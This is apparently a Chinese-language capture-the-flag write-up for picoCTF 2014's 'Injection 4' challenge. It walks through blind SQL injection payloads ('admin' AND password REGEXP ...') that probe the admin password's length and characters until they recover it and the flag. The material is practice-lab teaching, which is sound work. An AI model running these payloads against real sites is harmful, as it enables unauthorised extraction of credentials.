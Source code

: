 # Injection 4
[Daedalus的網頁](http://web2014.picoctf.com/injection4/)又加強了，沒有登入選單用escape特殊字元，而註冊的頁面接受名字的部份可以inject，可他們把註冊功能關掉了，填入名字只會能告訴你名字有沒有人用過。
 1. 既然可以inject名稱，那就可以猜admin的密碼
  * 先來猜長度：```admin' AND password REGEXP '^[a-zA-Z]{1,50}$' #```，賓果，繼續手動二分搜尋，找到長度是27
 2. 再來要猜測密碼長相了
  * 看看有沒有特殊字元： ```admin' AND password REGEXP '\W' #```
  * 有沒有數字： ```admin' AND password REGEXP '[0-9]' #```，沒有！太好了！
 3. 再來一個字母一個字母猜，得到有```a,d,e,g,h,i,l,n,o,p,r,ss,t,u,v,w,y```
  * 把他組成單字再猜：```hi, this, you, ll, never, guess, password```。
  * 阿哈！得到密碼 = ```youllneverguessthispassword```
 4. 接下來只要登入就能拿到 ```flag = whereof_one_cannot_speak_thereof_one_must_be_silent```
